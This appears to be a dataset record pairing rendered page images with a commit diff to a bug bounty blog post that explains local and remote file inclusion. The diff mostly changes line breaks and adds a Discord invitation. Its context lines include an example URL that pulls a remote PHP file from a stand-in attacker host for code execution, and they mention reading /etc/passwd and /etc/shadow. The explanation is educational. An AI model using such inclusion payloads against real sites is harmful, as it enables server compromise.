

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from rfi-lfi.md, in a window 1280 px wide and 1400 px high, scrolled down 311 px. Shown: the whole window at 90% size, without its empty margins (106-1160 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 1639 px from its top, so only the background shows below that.

Commit message:
Update rfi-lfi.md

```diff
--- a/rfi-lfi.md
+++ b/rfi-lfi.md
@@ -16,9 +16,10 @@ for example <code> /etc/passwd </code> or <code> /etc/shadow </code>.
 <br>
 On the other hand while exploiting RFI you can upload file from remote server which in 99% will result in
 RCE(Remote Code Execution). For example <code> https://www.site.com/app.php?file=http://attackers.website.com/file.php </code>.
-You could execute malicious code from the <code> file.php </code> file and use it for evil intention.
+You could execute malicious code from the <code> file.php </code> file and use it for evil intention. <br>
 LFI is way more popular than RFI because nowadays it is way easier to protect against including Remote Malicious Files, but
 you never know 🙂. <br>
+<br>
 File Inclusion Vulnerabilities are ranked critical since they can cause server-side injections and in most cases you can get RCE.
 
 # > Some File Inlusion Reports:
@@ -32,4 +33,5 @@ File Inclusion Vulnerabilities are ranked critical since they can cause server-s
 <a href="https://dvwa.co.uk/"> DVWA </a> <br> <br>
 
 That was it for this blog, I hope you enjoyed it and would like you to follow my <a href="https://twitter.com/ArikSyer">Twitter</a>
- so you get notified when I post another blog.
+ so you get notified when I post another blog. Oh yeah I almost forgot don't forget to join Discord Bug Bounty server with great community there, you can ask
+ for help there if you need it.
```
